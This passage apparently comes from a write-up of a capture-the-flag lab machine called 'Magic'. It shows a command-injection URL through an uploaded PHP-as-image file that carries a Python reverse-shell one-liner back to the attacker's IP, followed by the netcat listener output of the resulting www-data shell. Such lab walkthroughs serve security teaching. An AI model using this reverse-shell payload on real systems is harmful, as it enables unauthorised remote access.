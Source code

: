 ![image-20240120000629130](./Magic.assets/image-20240120000629130.png)

![image-20240120000637348](./Magic.assets/image-20240120000637348.png)

- visit command injection with reverse shell code: `http://10.10.10.185/images/uploads/a.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.185] 55988
www-data@magic:/var/www/Magic/images/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@magic:/var/www/Magic/images/uploads$ uname -a
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@magic:/var/www/Magic/images/uploads$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
```